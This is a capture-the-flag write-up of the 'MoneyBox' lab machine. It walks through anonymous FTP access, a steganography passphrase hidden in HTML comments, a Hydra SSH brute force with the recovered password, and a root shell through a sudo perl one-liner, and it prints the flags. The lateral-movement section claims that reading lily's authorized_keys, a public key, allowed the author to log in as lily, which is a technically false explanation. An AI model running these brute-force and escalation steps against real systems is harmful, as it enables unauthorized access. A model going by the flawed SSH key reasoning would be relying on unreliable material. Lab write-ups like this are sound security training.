









# MoneyBox - Proving Grounds Play Writeup

**Box**: MoneyBox  
**Difficulty**: Easy  
**OS**: Linux (Debian)  
**Date**: January 12, 2026  
**Time**: ~1 hour  

---

## TL;DR

Enumerated FTP and HTTP services to uncover a hidden image containing steganographic data. Extracted credentials via `steghide`, brute-forced SSH access for user `renu`, and laterally moved to user `lily` via misconfigured SSH authorized keys. Privilege escalation was achieved through a misconfigured sudo rule allowing `perl` execution, resulting in root access.

**Overall Impression**: Straightforward, clean, and fun box. Great enumeration practice.

---

## Enumeration

### Nmap Scan

Started with a full port scan to identify all running services on the target machine.

```bash
nmap -sV -p- -T4 192.168.64.230
```

The scan revealed three open ports running standard services that are common attack vectors.

**Open Ports**:

* **21/tcp** - FTP (vsftpd 3.0.3)
* **22/tcp** - SSH (OpenSSH 7.9p1)
* **80/tcp** - HTTP (Apache 2.4.38)



---

## FTP Enumeration

The first thing I tested was anonymous FTP access since it's a common misconfiguration that can leak sensitive files. I connected to the FTP server and tried logging in with the username `anonymous` and a blank password.

```bash
ftp 192.168.64.230
# login: anonymous
# password: [blank]
```

Anonymous login worked, giving me access to browse the FTP directory.

**Files found**:

```
trytofind.jpg
```

I downloaded the image to my local machine for further analysis. The filename `trytofind.jpg` immediately suggested that there might be hidden data inside, which is a common CTF technique called steganography.



**Note**: I spent some time trying to extract data from the image using tools like `exiftool`, `binwalk`, and `strings`, but quickly realized I needed a passphrase for `steghide`. This turned out to be a bit of a distraction for me since the actual passphrase was hidden on the web server, not around the image itself.

---

## Web Enumeration

Since port 80 was open during the nmap scan, I navigated to the web server to see what was being hosted.

```
http://192.168.64.230/
```

The landing page was pretty basic but included a helpful hint that said "don't overthink the box" - advice that turned out to be accurate.



### Directory Enumeration

I ran gobuster to discover any hidden directories that might contain useful information or attack vectors.

```bash
gobuster dir -u http://192.168.64.230 -w /usr/share/wordlists/dirb/common.txt
```

Gobuster found a directory called `/blogs/` which I immediately checked out.

**Key Finding**:

```
/blogs/
```

When I inspected the page source on the `/blogs/` page, I found an HTML comment that hinted at another hidden directory.

```
<!-- Check out: S3cr3t-T3xt -->
```

I navigated to the new directory to see what was there.

```
http://192.168.64.230/S3cr3t-T3xt/
```

The page looked completely empty in the browser, but when I checked the page source (always check the source!), I found another comment containing what looked like a key.

```
<!-- Key: 3xtr4ctd4t4 -->
```

This looked like it could be the steghide passphrase I needed for the image from the FTP server.

---

## Steganography

Now that I had a potential passphrase, I went back to the image I downloaded from FTP and tried using `steghide` to extract any hidden data.

```bash
steghide extract -sf trytofind.jpg
# passphrase: 3xtr4ctd4t4
```

The passphrase worked! Before extraction, I noticed the image was just a picture of a cat.


Steghide successfully extracted a text file called `data.txt` which contained some interesting information.

```
Hello.....  renu
Your Password is too Week So Change Your Password
```

This gave me a valid username (`renu`) and indicated that the user has a weak password that should be easy to brute-force. The typo "Week" instead of "Weak" was in the original message.


---

## Initial Access (SSH)

With a valid username and the knowledge that the password is weak, I decided to brute-force the SSH service using Hydra with the rockyou.txt wordlist, which contains millions of commonly used passwords.

```bash
hydra -l renu -P /usr/share/wordlists/rockyou.txt ssh://192.168.64.230
```

Hydra found valid credentials pretty quickly, confirming that the password was indeed very weak.

**Credentials found**:

```
renu : 987654321
```

I used these credentials to log into the SSH service and gain my initial foothold on the machine.

```bash
ssh renu@192.168.64.230
```



---

## User Flag

Once I had SSH access as the user `renu`, I checked the home directory for the local user flag.

```bash
cat local.txt
```

**User Flag**:

```
c8c4357444d7bd5a985324b0e870a626
```



---

## Lateral Movement (renu → lily)

After capturing the user flag, I started enumerating the system to find a path to privilege escalation. While checking the `/home` directory, I noticed there was another user on the system named `lily`.

I decided to check lily's SSH configuration to see if there were any misconfigurations I could exploit.

```bash
ls /home/lily/.ssh
cat /home/lily/.ssh/authorized_keys
```

I found that lily's SSH authorized_keys file was readable and contained a public key. This meant I could potentially use SSH key authentication to switch to the lily user without needing a password. I attempted to SSH as lily from my current session.

```bash
ssh lily@192.168.64.230
```

It worked! I was able to authenticate as lily using the exposed key. 



---

## Privilege Escalation

Now that I was operating as the lily user, I checked what sudo permissions this account had by running `sudo -l`, which lists the commands the current user can run with elevated privileges.

```bash
sudo -l
```

The output showed that lily could run perl as root without needing to provide a password.

**Output**:

```
(ALL : ALL) NOPASSWD: /usr/bin/perl
```

This is a dangerous misconfiguration because perl can execute arbitrary system commands. 
I used the perl one-liner to spawn a bash shell with root privileges.

```bash
sudo perl -e 'exec "/bin/bash";'
```

This command worked perfectly and gave me a root shell on the system.



---

## Root Flag

With root access, I navigated to the root user's home directory to capture the final flag.

```bash
cd /root
cat proof.txt
```

**Root Flag**:

```
363296eaab9098da7e14b38593fe6967
```



---

## Kill Chain Summary

```
1. Nmap → Found FTP, SSH, HTTP
2. FTP anonymous → Downloaded trytofind.jpg
3. Gobuster → Found /blogs/
4. Inspect source → Found S3cr3t-T3xt
5. Inspect source → Found steghide key: 3xtr4ctd4t4
6. Steghide → Extracted credentials hint (username: renu)
7. Hydra → Brute-forced SSH (renu:987654321)
8. SSH login → User access
9. Enumeration → Found lily with readable .ssh directory
10. SSH lateral → Moved to lily via authorized_keys
11. sudo -l → Perl misconfiguration
12. sudo perl → Root shell
13. Captured user & root flags
```

---

## Tools Used

* **nmap** – Port scanning
* **ftp** – Anonymous file access
* **gobuster** – Directory enumeration
* **steghide** – Steganography extraction
* **hydra** – SSH brute force
* **ssh** – Remote access

---

## Final Thoughts

This was a straightforward and enjoyable box that reinforced solid fundamentals. The enumeration phase required checking multiple services and piecing together information from different sources - the steghide key was on the web server while the image was on the FTP server. The lateral movement to lily through SSH key misconfiguration was a realistic scenario, and the privilege escalation through perl sudo permissions was a classic example of dangerous configurations. Overall, a fun box that rewards thorough enumeration and attention to detail.


